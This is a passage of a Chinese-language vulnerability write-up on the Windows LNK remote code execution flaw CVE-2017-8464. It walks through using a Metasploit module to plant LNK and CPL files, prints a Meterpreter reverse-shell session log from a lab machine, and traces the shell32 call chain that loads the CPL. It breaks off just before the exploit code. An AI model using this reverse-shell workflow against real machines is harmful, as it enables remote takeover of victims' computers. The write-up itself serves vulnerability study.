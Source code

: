 将生成的lnk和cpl复制到目标机器上（exploit产生了D到Z不同的lnk文件，适用于不知道绝对路径的U盘攻击场景）；设置反向shell的监听；然后在目标机器上浏览复制过去的目录。

目标上线：

```
[*] Started reverse TCP handler on 172.16.56.1:4444
[*] Sending stage (179779 bytes) to 172.16.56.159
[*] Meterpreter session 1 opened (172.16.56.1:4444 -> 172.16.56.159:49314) at 2018-11-23 13:23:59 +0800

meterpreter > getpid
Current pid: 2820

meterpreter > ps
...
2820  1588  rundll32.exe          x86   1        WIN-J7CB6NT7B29\rambo  C:\Windows\system32\rundll32.exe
```

用`windows/exec`弹出计算器：

![Screen Shot 2018-11-24 at 1.43.10 PM.png]({{ site.url }}/images/0day/803F626974C6998199D9AD3986B3107F.png)

## 2 漏洞分析

漏洞概述：与CVE-2010-2568类似，Windows在解析LNK文件中的ExtraData时同样会调用LoadLibrary加载CPL文件，但是没有做合法性校验。下面进行深入分析。

主要参考[Windows Lnk Vul Analysis:From CVE-2010-2568(Stuxnet 1.0) to CVE-2017-8464(Stuxnet 3.0)](http://ith4cker.com/content/uploadfile/201804/44eb1522835054.pdf)和[CVE-2017-8464 LNK 漏洞分析及 POC 关键部分](https://paper.tuisec.win/detail/bb5e0d987cf23cc)，第一篇来自启明星辰，它的特点是采用正向思路，直接分析lnk文件的解析流程。另外，[ITW 0day：LNK远程代码执行漏洞（CVE-2017-8464）的简要分析](http://www.vxjump.net/files/vuln_analysis/cve-2017-8464.txt)是一篇难得的文章，作者在文中通过补丁对比的方式来追溯这个漏洞，其中的思路很清晰，非常值得学习。

这里我们分析来自Metasploit的ExP：`exploit/windows/fileformat/cve_2017_8464_lnk_rce`。采用老办法，OD附加，然后在`LoadLibraryW`下`unicode[[esp+4]]=="E:\\FlashPlayerCPLApp.cpl"`的条件断点，打开E盘触发漏洞，中断，查看函数调用栈，将栈中的函数地址与IDA中的函数名进行匹配，得到以下调用链：

```assembly
call    ds:__imp__LoadLibraryW@
.text:738D72DB ; const struct CPLMODULE *__stdcall CPL_LoadCPLModule
.text:73AF2403 ; __int32 __thiscall CControlPanelFolder::_GetPidlFromAppletId
.text:73AF269D ; __int32 __stdcall CControlPanelFolder::ParseDisplayName
.text:73887A98 ; __int32 __stdcall CRegFolder::ParseDisplayName
.text:7388F124 ; __stdcall ReparseRelativeIDList
.text:738907B6 ; struct _ITEMIDLIST_ABSOLUTE *__stdcall TranslateAliasWithEvent
.text:73890870 ; struct _ITEMIDLIST_ABSOLUTE *__stdcall TranslateAlias
.text:7385E853 ; void __thiscall CShellLink::_DecodeSpecialFolder
.text:7385E461 ; __int32 __thiscall CShellLink::_LoadFromStream
.text:7381C9CE ; __int32 __thiscall CShellLink::_LoadFromFile
.text:7381C98F ; __int32 __stdcall CShellLink::Load
```

整个过程与启明星辰的正面分析结果相符。

构造的ExP如下：
